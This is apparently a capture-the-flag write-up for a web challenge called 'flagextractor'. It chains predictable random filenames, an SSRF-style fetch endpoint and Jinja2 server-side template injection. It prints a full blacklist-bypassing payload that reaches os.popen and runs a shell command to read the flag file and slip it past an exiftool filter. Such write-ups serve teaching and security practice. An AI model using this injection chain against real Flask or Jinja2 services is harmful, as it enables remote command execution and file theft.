

## Writeup for flagextractor
SSTI template injection

1. We notice that the server uses insecure random() and a fixed key

By uploading a normal file, we also notice that the output is filtered by exiftool. However, the server is kind enough to provide us with a neat timestamp

Using this timestamp, we can run a simple loop to see if we can reproduce the file name leaked by exiftool. Once this is done, we now can predict the output of the server random() based on timestamp

2. The /logs/ endpoint seems to capture and prevent any malicious templates from being rendered. Doesn't matter though, since render_template by itself is not vulnerable.

Now, we can upload any arbituary file onto the server and it will end up in /logs/

3. We realise that the /fetch/ endpoint basically acts as an ssrf window

However, no file:// or gopher:// protocols are allowed. As such, we need to make use of /logs.

We make a fetch request to logs and success! we are able to render logs as a template. However, the output of that render is once again filtered by exiftool.

3. We realise that while exiftool effectively filters out most datapoints, it leaves a few intact. Namely: 1. image tags (not really easy to do) 2. xml/html tags (For html, only <title> wrapped in <head> is actually rendered)

4. Furthermore, there also happens to be a character blacklist. If we exfiltrate the flag, since it contains {}, it will be blocked as malicious and yet again, we cannot receive the output.

Our goal is to create a string like this:
`
url_for.__globals__['os'].popen(cmd).read()
`

5. With the strict blacklist around characters, we can construct a setup code as follows:

`
       {# a = "args" #}
        {# g = "get" #}
      {# d = request.args.get #}
`

The | is a filter operator in jinja2 (A filter takes the value on its left side and passes it as the first argument to the function (filter) on its right side.)

{{hello | print}}

In this case, we create a dictionary {'args': 1} and pass it to the list function to turn it into ['args'] and last extracts 'args' as a string.

This effectively bypasses the ' and " blacklist.

The attr() line basically gets the "args" property for reqquest and then "get" property for that.

Our goal here is to obtain os.

First, we add the forbidden strings to the end of the url:
`
    params = {
        "glo": "__globals__",
        "gi": "__getitem__",
        "os": "os",
        "po": "popen",
        "re": "read",
        "cmd": "echo \"<!DOCTYPE html><html lang='en'><head><title>$(cat /*.txt | tr -d '{}')</title></head></html>\"" 
    }
    query_string = "&".join([f"{k}={v}" for k, v in params.items()])

`
This will allow us to do the following:
`
d(dict(cl=1)|list|last) {# request.args.get('cl') #}
`
we can use it to fetch any attribute from requests parameter, which can bypass the blacklist.

Starting with lipsum.__globals__:

`
{{ lipsum|attr(d(dict(glo=1)|list|last)) }}
`

Then os:

`
{{ ..|attr(d(dict(gi=1)|list|last))(d(dict(os=1)|list|last)) }} {# we need to use getitem here because it's a dictionary #}
`

Then popen:

`
{{ ..|attr(d(dict(po=1)|list|last)) }}
`

Then run the command (since popen is a method theres no need to pipe)
`
{{ ..(d(dict(cmd=1)|list|last)) }}
`

and finally, read the result

`
{{ ..|attr(d(dict(re=1)|list|last))() }}
`
Final payload:
`
{{ lipsum|attr(d(dict(glo=1)|list|last))|attr(d(dict(gi=1)|list|last))(d(dict(os=1)|list|last))|attr(d(dict(po=1)|list|last))(d(dict(cmd=1)|list|last))|attr(d(dict(re=1)|list|last))() }}       
`

6. Exfiltration

After obtaining os, we still CANNOT just exfiltrate the flag because of exiftool.
Method 1: wrap in html and remove {} from the flag to exfiltrate 

`
"cmd": "echo \"<!DOCTYPE html><html lang=\"en\"><head><title>$(tr -d {} < /*.txt)</title></head></html>\"" 
`
This is why we need command to echo an entire html document, not just the flag. And use translate -d to remove {} from the flag.

Method 2: write a code that outputs x amounts of 'a's (i.e. 500) corresponding to ascii code

Method 3: Timing attack 

Well, method 1 is the most straight forward solution so that will be used :)

